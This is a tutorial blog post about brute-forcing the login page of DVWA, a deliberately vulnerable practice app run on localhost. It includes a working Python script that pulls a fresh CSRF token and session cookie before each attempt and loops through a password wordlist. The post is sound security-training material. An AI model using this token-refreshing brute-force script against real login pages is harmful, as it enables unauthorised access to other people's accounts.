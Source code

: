 ```yaml
---
title: Brute forcing DVWA's initial login page 
slug: brute-forcing-dvwas-initial-login-page 
date: 2022-09-17 
updated_at: 2022-09-17 
description: "Although it is quite easy to see write ups for the DVWA's brute force login challenge. Hacking it's actual login page may bring up some challenges to newcomers. Let's understand why and how to circumvent it"
---
```


Although it is quite easy to see write ups for the DVWA's brute force login challenge. Hacking it's actual login page may bring up some challenges to newcomers. Let's understand why and how to circumvent it!

[Damn Vulnerable Web App, or also known as DVWA](https://github.com/digininja/DVWA), is a PHP/MySQL web application that is purposefully  vulnerable, as the name suggests, to be hacked, tested and serve as a learning playground for people that want to practice their security skills in a legal environment.

When we set up our DVWA server (in this case, I preferred using a docker image to host it for me), and do a initial reset database it will set up and show the default credentials for us: username `admin` and password `password`, pretty common default credentials for a webserver, right? However, if we could not hack, automate and find our way the system, how fun would it really be?

So, this is the first thing we see when we access our DVWA page:
![DVWA Login Page](/blog/assets/DVWA-Login-Page.png)

First things first, let's try to grasp this page and see if we can grab any hints that we could use, for it let's check the network tab as well. You can use another proxy to intercept requests as well, if you'd prefer.

![Highlighted requests](/blog/assets/highlighted-requests.png)

As you can see, I've highlighted somethings in the image above. The request high in blue is the POST request we just made trying to log in. After that, ther server processes the request and redirect us to `login.php` as we can see in the red highlight, with a message of "Login failed", as shown in the yellow highlight in the left. Let's copy the post request as a [cURL](https://curl.se/) command and see how it is formed. 

![Copy request as cURL command](/blog/assets/copy-as-curl.png)

Although cURL commands are pretty useful, I don't find them really easy to read, so let's transform it in a Python request and see how it looks. For that we can use the [cURL converter website](https://curlconverter.com/python/) to do the job for us and its output will look something like this:

```python
import requests

cookies = {
    'PHPSESSID': 'fmpdptokjk1ogvashj9j5usdn4',
    'security': 'low',
}

headers = {
	...
}

data = {
    'username': 'teste',
    'password': '123',
    'Login': 'Login',
    'user_token': 'e877712995a1d2bbae4c622fff7f9b9a',
}

response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
```

Here we can see a few interesting things in the request we made:  a cookie called `PHPSESSID ` and a parameter called `user_token`, if we try to refresh the page and login again we'll see that both of them will have new values. `PHPSESSID` is a a PHP way of setting a session cookie and `user_token` looks like a [CSRF Token](https://portswigger.net/web-security/csrf/tokens), a unique, unpredictable value that the server uses to validate the given request and properly process it if valid. Let's see what happens if we make a few requests without changing its value:

```python
for _ in range(1, 3):
    response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
    print(response.content)
    print("==============")
```

After the first request, you'll probably see we have a `CSRF token is incorrect` message within its body content, so this confirms our theory! So what can we do to get around it and be able to automatize our requests? 

First of all, we've already seen that every time we load the page a new token is generated for us, we can use that for getting a new token before every new request we make, so let's try making a `GET` request and see what we get.

```python
response = requests.get('http://localhost/login.php')

print(response.content.decode('UTF-8'))
```

And we'll get a tag like this within our response:

```html
<input type=\'hidden\' name=\'user_token\' value=\'faaf19846a466a9f328f2a43a06cfdb6\' />
```

So we can probably extract that using a [regex](https://en.wikipedia.org/wiki/Regular_expression), let's try that

```python
def get_user_token(body):
    return re.search("user_token\\\' value=\\\'(.+)\\\'", body).group(1)
```

Let's also get the `PHPSESSID` cookie since we're already getting data from the new request. It is in the Headers, however, we can do it like this

```python
def get_phpsessid(headers):
    return headers['Set-Cookie'].split(';')[0].split('=')[1]
```

And wrap up everything into a single function

```python
def set_request_tokens():
    response = requests.get('http://localhost/login.php')
    cookies['PHPSESSID'] = get_phpsessid(headers=response.headers)
    data['user_token'] = get_user_token(body=response.content.decode('UTF-8'))
```

Let's set a small wordlist of passwords so we can test if we find a successful login.

```python
PASSWORDS = [
    "teste",
    "admin",
    "password",
    "tentativa",
    "aloha",
    "ihuuuu"
    "qwerty"
    "qw12er34ty56"
]
```

so, just to finish our little script, let's build a last function to do the dirty work for us.

```python
def brute_force():
    for i in PASSWORDS:
        set_request_tokens()
        data['password'] = i
        response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
        
        if 'Login failed' in response.content.decode('UTF-8'):
            continue

        print("=================")
        print("Successful Login!")
        print("Credential Found:")
        print(f"- Username: {data['username']}")
        print(f"- Password: {data['password']}")
        print("=================")
```

This function iterates over the PASSWORDS list we've defined earlier, sets the tokens we need for every new request and, finally, do the request. After that we check if there's a `Login failed` message within the reponse content to see if we succeeded or not and then print out the credentials found. The final output will look like this:

![Script output Result](/blog/assets/script-output.png)

## Conclusion

And that will be it! Although it's a very simple hacking problem, some people might run into trouble dealing with those tokens and not understand what's going on. Especially when we try to use tools as Burp Suite or [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) for brute forcing it, since the results may not be consistent if not set up correctly. You can find the whole script in my [Github](https://github.com/davidpalves/writeups/blob/main/dvwa/dvwa-login.py).

Feel free to comment below any questions, suggestions or relevant points you might have!
